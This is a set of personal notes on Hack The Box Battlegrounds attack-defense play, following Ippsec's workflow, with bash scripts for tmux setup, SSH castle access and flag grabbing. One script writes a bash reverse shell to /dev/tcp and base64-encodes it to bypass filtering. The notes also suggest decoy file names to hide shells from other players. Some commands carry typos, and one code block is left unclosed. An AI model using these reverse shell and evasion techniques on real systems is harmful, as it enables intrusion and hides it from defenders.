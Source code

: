 # Battlegrounds 

Try to, at some point I master hacking in battlegrounds context. This hope is that this will morph into an instructional Art of War for Hacking. From absolute novice to master.

## Ippsec Introductional Scripting
[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)

This section is notation and inpsired by Ippsec's "{"workflow"}" from around Oct 2020. Methods change and this document should also reflect that knowledge is power. Knowing your enemy and what they know is power. Defense and Attack are both in a context of conflict are the same thing - action to end conflict.

Requirements:
1. Tmux or equivalent and setup to manage connections, information and tools.
Although not stated by Ippsec a tmux scripting to setup a terminal multiplexer of 
```bash
#!/bin/bash

tmux new -s Battleground 
tmux new-window -t SERVER
tmux new-window -t HOME
tmux new-window -t BLUE
tmux new-window -t MSF
tmux new-window -t ATK

tmxu send-keys -t HOME 'cp bg/ /tmp; cd tmp/bg' #setup 
tmux send-keys -t HOME './startBGs.sh'
```

2. StartBG.sh 
```bash
#!/bin/bash

cp -r www-skel/ www/
sed -i "s/$IP/$1/g" www/*
cp www/$reverseshell www/$decoy-name
cp www/$reverseshell www/$decoy-name 
echo "bash -c 'bash -i >& /dev/tcp/$1/$port 0>&1'" >> www/shell.sh
SHELL=$(cat www/shell.sh | base64 -w 0)
echo "echo -n '$SHELL' | bash64 -d | bash" >> www/shell.b64.sh
```
IP variable in the third line must be changed to match a default script variable.
The b64 version is to bypass badchars and filtering.  
Decoy naming: the variable in this script is such that the naming of the shell in the file directory it is run from or process directory `/proc/$int` as process. The file names below were given as examples of ways to avoid detection from other players. Each player has some idea of what is regularly in the www directory so a wordpress file would seem ordinary were as long string of 'a's could clutter the process tree or overflow to the textual display obfuscating another players `ps -aux` command.
```bash
decoy-name=#of the following
wp-load.php
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaah-RCE.php.gif
```

3. accesscastle.sh $IP $PASSWORD
```bash
#!/bin/bash
# Ippsec castle access script from Hack the Box Hacking Battlegrounds video
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o UserKnownHostsFile=/dev/null -o StrictHostKeysChecking=no root@$1
```

4. getflags.sh 
This script will access the castles access the hostkeys and print out the flags. It will ask for a password if the hostkey is NOT there.
```bash
for i in $(seq 105 108); do
        echo "10.10.110.$i"
        ssh -o "BatchMode=Yes" -o "StrictHostKeyChecking=no" \
                -o "GlobalKnownHostsFile=/dev/null" -o "UserKnownHostsFile=/dev/null" \
                -i $privatekey \
                root@10.10.110.$i "cat /root/flag.txt; echo; cat /opt/flag.txt; echo" 2>/dev/null
        done
```

5. Metasploit is efficient. Hacking without makes you better; Metasploit streamline exploit execution chain. Speed and time are important and without metasploit research and script fixing takes time.  Shell stablisation is plain for defenders to see, with metaspoit shell there is no need to stablise.

6. Create more panes for Tmux 

8. Configure Burp proxy(if using firefox to Hack from) `Proxy -> Options -> Intercept Client Request -> Add -> Match Relationship = IP address; Match condition 10.10.110.100-120` and disabling Websockets Messages on the same Proxy tab, Options `Intercept WebSockets Messages -> untick Intercept client-to-server messages & untick Intercept server-to-client messages`. This stop the background page slowing down request cycling stopping you from intercepting Battleground relevant pages.

## On Castle Enumeration
```bash
ps -aef --forest

## References

[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)
[Tmux Scripting](https://tao-of-tmux.readthedocs.io/en/latest/manuscript/10-scripting.html)


Cyberwarfare

